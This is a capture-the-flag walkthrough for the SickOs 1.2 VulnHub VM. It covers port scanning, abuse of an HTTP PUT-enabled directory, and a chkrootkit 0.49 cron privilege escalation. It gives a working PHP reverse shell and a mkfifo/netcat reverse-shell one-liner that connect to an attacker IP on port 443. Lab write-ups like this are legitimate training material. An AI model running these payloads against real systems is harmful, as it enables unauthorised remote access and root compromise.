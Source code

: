 ## SickOs 1.2 VulnHub VM walkthrough

SickOs 1.2 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/sickos-12,144/

```
This is second in following series from SickOs and is independent of the prior releases, scope of challenge is to gain highest privileges on the system.
```

## Solution

#### 1. Sudo Netdiscover
![](Assets/1.png)
> IP address: 192.168.1.8

#### 2. Port scan: Nmap -sC -sV -Pn -p- -A 192.168.1.8
![](Assets/2.png)
> OpenSSH 5.9p1 & lighthttpd 1.4.28

#### 3. Nikto: Nikto -h 192.168.1.8
![](Assets/3.png)
> nothing interesting

#### 4. Dirb http://192.168.1.8
![](Assets/4.png)
> test and index.php

#### 5. Visit test directory
![](Assets/5.png)

#### 6. Check curl methods: curl -v -X OPTIONS http://192.168.1.8/test
![](Assets/6.png)
> notice PUT method

#### 7. Intercept http://192.168.1.8/test in burp and try creating a file with PUT
![](Assets/7.png)
> 'x' created

#### 8. Check with curl http://192.168.1.8/test/x
![](Assets/8.png)
> Got the content

#### 9. Add reverse shell and Note that the outbound traffic except port 443 is blocked by Firewall, so in reverse shell, use port 443
```
<?php echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.2 443 >/tmp/f"); ?>
```
![](Assets/9.png)
> shell created
![](Assets/10.png)
> got shell access

#### 10. Spawn tty shell
![](Assets/11.png)

### Method: Using Chkrootkit
#### 11. Check cron.daily
![](Assets/12.png)
> chkrootkit 0.49 version vulnerable to local privilege escalation
> put malicious code in /tmp/update and wait for cron.daily to execute it
```
echo '#!/bin/bash' > update
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.2 443 >/tmp/f' >> update 
chmod 777 update
```
![](Assets/13.png)

#### 12. Nc -nvlp 443
![](Assets/14.png)
> Got root
